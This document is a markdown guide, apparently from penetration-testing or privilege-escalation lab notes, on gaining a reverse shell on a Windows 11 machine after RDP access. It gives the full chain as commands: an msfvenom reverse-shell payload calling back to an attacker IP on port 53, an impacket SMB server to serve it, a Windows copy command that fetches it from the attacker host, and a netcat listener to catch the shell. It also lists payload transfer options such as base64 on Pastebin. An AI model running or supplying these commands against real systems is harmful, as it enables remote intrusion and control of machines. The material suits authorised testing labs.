 # Obtaining a Shell via RDP on Windows 11

## Overview
This guide demonstrates how to establish a reverse shell connection after gaining RDP access to a Windows 11 machine using Kali Linux tools.

## Prerequisites
- RDP access to Windows 11 target machine
- Kali Linux attacker machine
- Network connectivity between both systems

## Step 1: Generate Reverse Shell Payload

On Kali Linux, generate a Windows reverse shell executable using msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

**Note:** Replace `10.10.10.10` with your Kali Linux IP address.

## Step 2: Transfer Payload to Windows Target

### Option A: SMB Server Method

1. **Start SMB server on Kali:**
   ```bash
   sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
   ```

2. **Copy file from Windows:**
   ```cmd
   copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
   ```

### Option B: Alternative Transfer Methods
- HTTP server: `python3 -m http.server 80`
- FTP transfer
- Cloud storage services
- Pastebin with base64 encoding

## Step 3: Execute Reverse Shell

1. **Start netcat listener on Kali:**
   ```bash
   sudo nc -nvlp 53
   ```

2. **Execute payload on Windows:**
   ```cmd
   C:\PrivEsc\reverse.exe
   ```

## Step 4: Catch the Shell

- The netcat listener should receive the reverse shell connection
- You now have command-line access to the Windows system

## Important Notes

- **Firewall Considerations:** Ensure port 53 (or your chosen port) is not blocked
- **AV Evasion:** The generated executable may be detected by antivirus software
- **Persistence:** This provides a temporary shell (non-persistent)
- **Legal Use:** Only use these techniques on systems you own or have explicit permission to test

## Maintenance

- Keep the `reverse.exe` file for future privilege escalation exercises
- The same payload can be reused for multiple privilege escalation techniques

## Troubleshooting

- Verify IP addresses and port numbers match
- Check firewall rules on both systems
- Ensure the SMB server is running during file transfer
- Confirm the payload is executed with appropriate privileges

---

*This technique is commonly used in penetration testing and red team engagements to maintain access after initial compromise.*
